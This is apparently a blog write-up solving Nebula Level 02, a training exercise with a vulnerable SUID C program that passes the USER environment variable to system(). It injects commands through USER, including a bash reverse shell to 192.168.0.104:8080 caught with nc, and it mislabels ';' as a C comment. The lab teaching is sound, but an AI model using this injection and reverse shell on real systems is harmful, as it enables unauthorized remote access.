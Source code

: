 ```yaml
---
layout: post
title: 'Exploit Exercises: Nebula Level 02'
date: 2018-07-16 15:36 -0300
categories: [nebula, writeups]
tags: [ nebula, writeups, level, exploit, exercise, tutorial, solution]
---
```


![Image of Nebula Terminal](/uploads/Screenshot%20from%202018-07-16%2000-20-16.png)

There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?
To do this level, log in as the level02 account with the password level02. Files for this level can be found in /home/flag02.

### Source code

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);

  system(buffer);
}
```

### Solution

After login we go to the flag account folder.

```terminal
level02@nebula:~$ cd /home/flag02/
level02@nebula:/home/flag02$ ls
Flag02
```

This program is almost the same as the previous one but we can not simply link "/bin/echo" to "/bin/getflag" because of the path "/bin". But on this line:

```cpp
asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
```

We can observe the "getenv" function which is making our lives easier. If you do not know what "getenv" dose then read the following: http://en.cppreference.com/w/cpp/utility/program/getenv

So let’s try the following export:

```terminal
level02@nebula:/home/flag02$ export USER=getflag
level02@nebula:/home/flag02$
```

At this moment the system variable $USER has the value of "getflag". Let’s test:

```terminal
level02@nebula:/home/flag02$ export USER=getflag
level02@nebula:/home/flag02$ echo $USER
getflag
```

Now let’s run the application and see the output.

```terminal
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo getflag is cool")
getflag is cool
level02@nebula:/home/flag02$
```

We are controlling the value of $USER but we need to both ensure that we comment the command in order to execute our instructions. In C/C++ we can comment commands with the symbol ";". So let’s do this:

```terminal
level02@nebula:/home/flag02$ export USER='; getflag;'
level02@nebula:/home/flag02$ echo $USER
; getflag;
level02@nebula:/home/flag02$
```

Now let’s execute:

```terminal
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo ; getflag; is cool")

You have successfully executed getflag on a target account
sh: is: command not found
level02@nebula:/home/flag02$
```

Funny thing is that "sh: is: command not found" means that the program is trying to execute system command "is". Have you ever tried a reverse shell? Ok let’s take control of the user "flag02" because of this SUID vulnerable program.

Steps for standard reverse shell:

Attacker is listening to everything on a port

The target is connecting to the attacker IP on the port (either by standard command or by certain exploits for certain programs ⇒ SUID in our case)

Attacker is sending back commands! ⇒ Reverse Shell

Nebula system (aka target):

```terminal
level02@nebula:/home/flag02$ id
uid=1003(level02) gid=1003(level02) groups=1003(level02)
level02@nebula:/home/flag02$
```

⇒ I am logged in as user "level02"

My system (aka attacker) is starting the listening procedure:

```terminal
lucian@vm:~$ nc -l -p 8080 -vvv
Listening on [0.0.0.0] (family 0, port 8080)
```

Nebula system (aka target) is making the exploit:

```terminal
level02@nebula:/home/flag02$ export USER='; bash -i >& /dev/tcp/192.168.0.104/8080 0>&1;'
```

In other words this is a standard reverse shell command using bash. It could be decrypted as:

```terminal
bash -i >& /dev/tcp/<attcker ip address>/<port that the attacker is listening on> 0>&1
```

Nebula system (aka target) is running the exploit:

```terminal
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo ; bash -i >& /dev/tcp/192.168.0.104/8080 0>&1; is cool")
```

At this point my system (aka attacker) can execute commands as "flag02" and not as "level02" from my system (aka attacker) terminal!

```terminal
lucian@vm:~$ nc -l -p 8080 -vvv
Listening on [0.0.0.0] (family 0, port 8080)
Connection from [192.168.0.101] port 8080 [tcp/http-alt] accepted (family 2, sport 55773)
flag02@nebula:/home/flag02$ id
id
uid=997(flag02) gid=1003(level02) groups=997(flag02),1003(level02)
flag02@nebula:/home/flag02$ getflag
getflag
You have successfully executed getflag on a target account
flag02@nebula:/home/flag02$
```
